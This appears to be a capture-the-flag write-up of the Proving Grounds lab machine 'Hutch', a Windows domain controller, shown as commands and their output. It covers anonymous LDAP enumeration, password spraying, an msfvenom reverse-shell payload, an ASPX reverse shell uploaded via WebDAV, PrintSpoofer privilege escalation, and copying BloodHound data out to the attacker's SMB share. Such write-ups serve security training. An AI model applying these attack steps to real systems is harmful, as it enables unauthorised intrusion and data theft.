





## Hutch: Writeup

Nmap scan:

```bash
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/10.0
|_  Server Date: Mon, 13 Mar 2023 15:24:13 GMT
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-03-13 15:23:25Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49865/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 30530/tcp): CLEAN (Timeout)
|   Check 2 (port 43407/tcp): CLEAN (Timeout)
|   Check 3 (port 40356/udp): CLEAN (Timeout)
|   Check 4 (port 46422/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-03-13T15:24:18
|_  start_date: N/A
```

Fingerprint the OS with crackmapexec:

```bash
$ cme smb 192.168.196.122
SMB  192.168.196.122 445  HUTCHDC  [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
```

Now I have the hostname and the domain name.
Checking things out further on SMB, I can'd do anything without creds:

```bash
$ cme smb 192.168.196.122 --shares
SMB         192.168.196.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.196.122 445    HUTCHDC          [-] Error enumerating shares: STATUS_USER_SESSION_DELETED

┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/hutch]
└─$ cme smb 192.168.196.122 --shares -u 'lemmy' -p 'lemmy'
SMB         192.168.196.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\lemmy:lemmy STATUS_LOGON_FAILURE
```

I'll try anonymous bind with [windapsearch](https://github.com/ropnop/windapsearch) and dump all users and their attributes. It works:

```bash
$ ~/hacking/tools/windapsearch/windapsearch.py -d hutch.offsec --dc-ip 192.168.196.122 -U --full
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 192.168.196.122
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=hutch,DC=offsec
[+] Attempting bind
[+]     ...success! Binded as:
[+]      None

[+] Enumerating all AD users
[+]     Found 14 users:

objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Guest
description: Built-in account for guest access to the computer/domain
distinguishedName: CN=Guest,CN=Users,DC=hutch,DC=offsec
instanceType: 4
whenCreated: 20201104052540.0Z
whenChanged: 20201104052540.0Z
uSNCreated: 8197
memberOf: CN=Guests,CN=Builtin,DC=hutch,DC=offsec
uSNChanged: 8197
name: Guest
objectGUID: VKtEAAOQ8ki8PKRBs7xH+A==
userAccountControl: 66082
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 514
objectSid: AQUAAAAAAAUVAAAARZojhOF3UxtpokGn9QEAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Guest
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
isCriticalSystemObject: TRUE
dSCorePropagationData: 20201104053513.0Z
dSCorePropagationData: 20201104052623.0Z
dSCorePropagationData: 16010101000417.0Z

<SNIP>

objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
instanceType: 4
whenCreated: 20201104053505.0Z
whenChanged: 20210216133934.0Z
uSNCreated: 12831
uSNChanged: 49179
name: Freddy McSorley
objectGUID: TxilGIhMVkuei6KplCd8ug==
userAccountControl: 66048
badPwdCount: 1
codePage: 0
countryCode: 0
badPasswordTime: 133231955711830573
lastLogoff: 0
lastLogon: 132579563744834908
pwdLastSet: 132489417058152751
primaryGroupID: 513
objectSid: AQUAAAAAAAUVAAAARZojhOF3UxtpokGnWwQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: fmcsorley
sAMAccountType: 805306368
userPrincipalName: fmcsorley@hutch.offsec
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
dSCorePropagationData: 20201104053513.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 132579563744834908
msDS-SupportedEncryptionTypes: 0


[*] Bye!
```

I get a plaintext password for fmcsorley: CrabSharkJellyfish192
I'll check to see if this password is good for all users or just for the one:

```bash
$ cme smb 192.168.196.122 -u users.txt -p passwords.txt
SMB         192.168.196.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\rplacidi:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\opatry:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\ltaunton:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\acostello:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\jsparwell:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\oknee:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\jmckendry:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\avictoria:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\jfrarey:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\eaburrow:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\cluddy:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [-] hutch.offsec\agitthouse:CrabSharkJellyfish192 STATUS_LOGON_FAILURE
SMB         192.168.196.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192
```

Only good for fmcsorley. Check what SMB shares I can list:

```bash
$ cme smb 192.168.196.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
SMB         192.168.196.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.196.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192
SMB         192.168.196.122 445    HUTCHDC          [+] Enumerated shares
SMB         192.168.196.122 445    HUTCHDC          Share           Permissions     Remark
SMB         192.168.196.122 445    HUTCHDC          -----           -----------     ------
SMB         192.168.196.122 445    HUTCHDC          ADMIN$                          Remote Admin
SMB         192.168.196.122 445    HUTCHDC          C$                              Default share
SMB         192.168.196.122 445    HUTCHDC          IPC$            READ            Remote IPC
SMB         192.168.196.122 445    HUTCHDC          NETLOGON        READ            Logon server share
SMB         192.168.196.122 445    HUTCHDC          SYSVOL          READ            Logon server share
```

No shares are interesting.

Check if I can login via winrm. No go:

```bash
$ cme winrm 192.168.196.122 -u fmcsorley -p CrabSharkJellyfish192
SMB         192.168.196.122 5985   HUTCHDC          [*] Windows 10.0 Build 17763 (name:HUTCHDC) (domain:hutch.offsec)
HTTP        192.168.196.122 5985   HUTCHDC          [*] http://192.168.196.122:5985/wsman
WINRM       192.168.196.122 5985   HUTCHDC          [-] hutch.offsec\fmcsorley:CrabSharkJellyfish192
```

Check to see if I can attempt to fetch Service Principal Names that are associated with normal user accounts. Also no go:

```bash
$ /opt/impacket/examples/GetUserSPNs.py hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.196.122 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```

Earlier, I fuzzed the web root and found nothing special at all. The IP resolves to the default IIS page:



This is sometimes a sign that I can put something on the machine that I can access through the web service, then get code execution.

Nmap conducted a webdav scan, so let's see if I can connect to the web service via webdav:

```bash
$ davtest -url http://192.168.196.122
********************************************************
 Testing DAV connection
OPEN            FAIL:   http://192.168.196.122  Unauthorized. Basic realm="192.168.196.122"
```

It says I needs creds. I'll give it the creds I have. Success:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/hutch]
└─$ davtest -auth fmcsorley:CrabSharkJellyfish192 -url http://192.168.196.122
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://192.168.196.122
********************************************************
NOTE    Random string for this session: 98gXgITfVcZL
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://192.168.196.122/DavTestDir_98gXgITfVcZL
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.jsp
PUT     html    SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.html
PUT     jhtml   SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.jhtml
PUT     php     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.php
PUT     aspx    SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.aspx
PUT     asp     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.asp
PUT     txt     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.txt
PUT     cfm     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.cfm
PUT     pl      SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.pl
PUT     shtml   SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.shtml
PUT     cgi     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.cgi
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    html    SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.html
EXEC    jhtml   FAIL
EXEC    php     FAIL
EXEC    aspx    SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.aspx
EXEC    asp     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.asp
EXEC    txt     SUCCEED:        http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.txt
EXEC    cfm     FAIL
EXEC    pl      FAIL
EXEC    shtml   FAIL
EXEC    cgi     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://192.168.196.122/DavTestDir_98gXgITfVcZL
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.jsp
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.html
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.jhtml
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.php
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.aspx
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.asp
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.txt
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.cfm
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.pl
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.shtml
PUT File: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.cgi
Executes: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.html
Executes: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.aspx
Executes: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.asp
Executes: http://192.168.196.122/DavTestDir_98gXgITfVcZL/davtest_98gXgITfVcZL.txt
```

I can put a web shell here through `cadaver`, which simplifies the process. I first try a simple `asp` shell, given that this is IIS. It has some functionality, but isn't reliable:

```bash
$ cadaver http://192.168.196.122
Authentication required for 192.168.196.122 on server `192.168.196.122':
Username: fmcsorley
Password:
dav:/> put cmdasp.asp
Uploading cmdasp.asp to `/cmdasp.asp':
Progress: [=============================>] 100.0% of 1526 bytes succeeded.
```




I then tried a `asp` shell through `msfvenom`:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f asp -o shell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of asp file: 53152 bytes
Saved as: shell.asp
```

This, too, didn't work.

There's an aspx shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) that I did have luck with.

```bash
$ cadaver http://192.168.196.122
Authentication required for 192.168.196.122 on server `192.168.196.122':
Username: fmcsorley
Password:
dav:/> put shell.aspx
Uploading shell.aspx to `/shell.aspx':
Progress: [=============================>] 100.0% of 15970 bytes succeeded.
```

Going to http://192.168.196.122/shell.aspx in my browser, I get a shell:



Grab `local.txt`:

```cmd
PS C:\Users\fmcsorley\Desktop> whoami
whoami
iis apppool\defaultapppool
PS C:\Users\fmcsorley\Desktop> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::f428:8a13:99bd:ff51%3
   IPv4 Address. . . . . . . . . . . : 192.168.196.122
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.196.254
PS C:\Users\fmcsorley\Desktop> gc local.txt
gc local.txt
a05321219db2bc63f2d3a97004b773ce
```

Find out information on this user:

```cmd
PS C:\temp> whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                           Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### Root via PrintSpoofer

With the `SeImpersonatePrivilege` set, I can try to run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to abuse golden privileges. This works and I become the System account:

```cmd
c:\temp>.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
hutch\hutchdc$

C:\Windows\system32>cd \Users\Administrator\Desktop
cd \Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
e34437846644d4fdf204b07b46e857a7
```

### Root via LAPS

PrintSpoofer is one way to do it. Another way is to read the LAPS password. LAPS provides the administrator with a password that is good for a certain length of time and is not constant. So if I get the LAPS password for administrator, I can then `psexec` to get a shell with System privileges. The LAPS password will be different each time this machine is run.

To explore how I go about this further, I can run Bloodhound. I transferred SharpHound over then run this command to get everything I can:

```cmd
PS C:\temp> .\SharpHound.exe --collectionmethods All --zipfilename bloodhound.zip
.\SharpHound.exe --collectionmethods All --zipfilename bloodhound.zip
2023-03-13T11:40:50.1049417-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-03-13T11:40:50.2299366-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-03-13T11:40:50.2455613-07:00|INFORMATION|Initializing SharpHound at 11:40 AM on 3/13/2023
2023-03-13T11:40:50.5268150-07:00|INFORMATION|Loaded cache with stats: 63 ID to type mappings.
 63 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-03-13T11:40:50.5424326-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-03-13T11:40:50.6518164-07:00|INFORMATION|Beginning LDAP search for hutch.offsec
2023-03-13T11:40:50.6986920-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-03-13T11:40:50.6986920-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-03-13T11:41:21.3236872-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2023-03-13T11:41:38.1361867-07:00|INFORMATION|Consumers finished, closing output channel
2023-03-13T11:41:38.1518101-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-03-13T11:41:38.2299342-07:00|INFORMATION|Status: 104 objects finished (+104 2.212766)/s -- Using 42 MB RAM
2023-03-13T11:41:38.2299342-07:00|INFORMATION|Enumeration finished in 00:00:47.5781869
2023-03-13T11:41:38.2924331-07:00|INFORMATION|Saving cache with stats: 63 ID to type mappings.
 63 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-03-13T11:41:38.2924331-07:00|INFORMATION|SharpHound Enumeration Completed at 11:41 AM on 3/13/2023! Happy Graphing!
```

Transfer over via SMB. I have to authenticate to my machine to make this work:

On attacker:

```bash
$ /opt/impacket/examples/smbserver.py share . -smb2support -username lemmy -password password
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.196.122,51387)
[*] AUTHENTICATE_MESSAGE (\lemmy,HUTCHDC)
[*] User HUTCHDC\lemmy authenticated successfully
[*] lemmy:::aaaaaaaaaaaaaaaa:6d57cfc6b75e4985fdb012bb7605121d:0101000000000000806b9e27dc55d901a0f22eec642a247f0000000001001000420042006c006300450077004d00410003001000420042006c006300450077004d00410002001000760048004d007700670058004b00420004001000760048004d007700670058004b00420007000800806b9e27dc55d90106000400020000000800300030000000000000000000000000300000539a51b2bcacfbe768f5f4ba17e6d6a076d9f2b64709e5b2b500903f51e455480a001000000000000000000000000000000000000900220063006900660073002f003100390032002e003100360038002e00340035002e0035000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```

On target:

```cmd
PS C:\temp> net use \\192.168.45.5\share /u:lemmy password
net use \\192.168.45.5\share /u:lemmy password
The command completed successfully.

PS C:\temp> copy .\20230313114136_bloodhound.zip \\192.168.45.5\share
copy .\20230313114136_bloodhound.zip \\192.168.45.5\share
```

Investigating this, I find that fmcsorley can read the LAPS password:



